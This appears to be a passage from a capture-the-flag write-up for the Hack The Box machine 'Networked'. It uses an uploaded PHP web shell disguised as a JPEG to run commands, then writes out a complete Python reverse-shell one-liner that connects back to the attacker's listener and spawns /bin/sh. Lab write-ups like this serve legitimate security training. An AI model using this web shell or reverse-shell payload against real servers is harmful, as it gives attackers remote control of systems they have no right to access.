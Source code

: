 ![](img/2021-01-17-05-17-00.png)

I navigate to `http://networked.htb/uploads/10_10_14_10.php.jpg?cmd=uname%20-a` and see evidence of command execution.

![](img/2021-01-17-05-17-39.png)

## Reverse Shell

I start a `nc` listener on port 443.

I navigate to `http://networked.htb/uploads/10_10_14_10.php.jpg?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.10%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`, which executes `$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` on the target.

